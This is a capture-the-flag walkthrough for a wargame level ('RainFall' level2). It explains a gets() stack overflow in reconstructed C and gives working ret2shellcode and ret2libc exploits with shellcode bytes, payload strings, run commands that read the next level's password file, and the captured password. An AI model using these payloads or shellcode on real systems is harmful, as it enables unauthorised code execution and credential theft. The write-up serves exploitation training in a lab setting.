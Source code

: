 # Level 2

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void p(void)
{
    fflush(stdout);

    int buffer[16];
    gets(buffer);

    int tmp = buffer[20];
    if ((tmp & 0xb0000000) == 0xb0000000)
    {
        printf("(%p)\n", tmp);
        exit(1);
    }
    puts(buffer);
    strdup(buffer);
}

int main(void)
{
    p();
}
```

Let's focus on the `p` function. It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read.

In this case, the program's stack is allocated 104 bytes:
```
# Allocating 104 bytes on the stack
0x080484d7 <+3>:     sub    $0x68,%esp

# Calculate the address of ebp - 76, since we allocated 104 bytes for the stack and since our next variable start at ebp - 12, our buffer will therefore be 64 bytes (here buf is an int array, so 64 bytes = 16 * 4 bytes)
0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax

# Move 4 bytes above ebp aka the return address into eax
0x080484f2 <+30>:    mov    0x4(%ebp),%eax

# Moving the return address into ebp - 12 which is our next variable, it is an int so 4 bytes.
0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)

There's still 12 bytes left before reaching our return address, these could be padding bytes or other variables. (except at ebp where it's the previous saved ebp address)
```

Although we allocated 104 bytes on the stack, our buffer only starts at `ebp - 76`, which means that we only have to write 76 bytes before overflowing the stack. Furthermore, we need to write 4 bytes to reach the return address so 80 bytes in total (as shown in the assembly code above). Anything written beyond those 80 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `p` function.

There's different ways to solve this challenge, we'll see two of them. First the intended way (I assume) with a ret2shellcode and then the ret2libc way.

### Ret2Shellcode
We opt for a shellcode designed to spawn a shell. This shellcode, taken from the [Exploit Database](https://www.exploit-db.com/exploits/41757), is compact and effective for our purpose:

`\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

To redirect the execution, after the buffer overflow, we need an address. We use `ltrace` to find that `strdup` returns to `0x0804a008`.

```bash
level2@RainFall:~$ ltrace ./level2
[...]
strdup("") = 0x0804a008
```

Since `strdup` allocates the buffer that was read by `gets`, the address of the shellcode will be stored at `0x0804a008` (The address that was returned by strdup).

So our payload will be:
```
shellcode + padding + address of shellcode
Alternatively, you could place the padding before the shellcode, using NOPs.

"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\x04\xa0\x08"[::-1]

The padding is 80 - 21 because the shellcode is 21 bytes long.
```

Alright let's try it:
```bash
level2@RainFall:~$ (python -c 'print("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\x04\xa0\x08"[::-1])' && echo 'cat /home/user/level3/.pass') | ./level2
j
 X�Rh//shh/bin��1�̀������������������������������������������������������
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Perfect, let's move to the other solution.

### Ret2Libc
Check the [level1's walkthrough](../level1/walkthrough.md#ret2libc) for an explanation of the ret2libc technique.

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xb7e6b060  __libc_system
0xb7e6b060  system

# Exit
(gdb) info functions exit
0x080483d0  _exit
0x080483d0  _exit@plt

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

However we'll need to include an extra step because of the following lines:
```c
if ((tmp & 0xb0000000) == 0xb0000000)
{
    printf("(%p)\n", tmp);
    exit(1);
}
```

Ealier, I mentionned that the return address was put into our next variable, which is `tmp`. So the `&` operator, along with the `0xb0000000` mask is used to check if our return address most significant byte is equal to `0xb`. If it is, the program will exit. So we need to find an address that doesn't start with `0xb`. 

Given that the address of the `system` function begins with `0xb`, it cannot be directly used. So we'll have to include the address of a `ret` instruction in our payload. When the program attempts to return to this address, the `ret` instruction pops the address of `system` into the EIP register, causing the program to jump to `system`.


Alright, let's craft our payload:
```
reminder: padding + address of ret + address of system + address of exit + address of "/bin/sh"

"\x90"*80 + "\x08\x04\x85\x3e" + "\xb7\xe6\xb0\x60" + "\x08\x04\x83\xd0" + "\xb7\xf8\xcc\x58"
```

Let's run it:
```bash
level2@RainFall:~$ (python -c 'print("\x90"*80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\x08\x04\x83\xd0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])' && echo 'cat /home/user/level3/.pass') | ./level2
����������������������������������������������������������������>������������>`��X���
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

We are now level3! Let's move on to the next level.
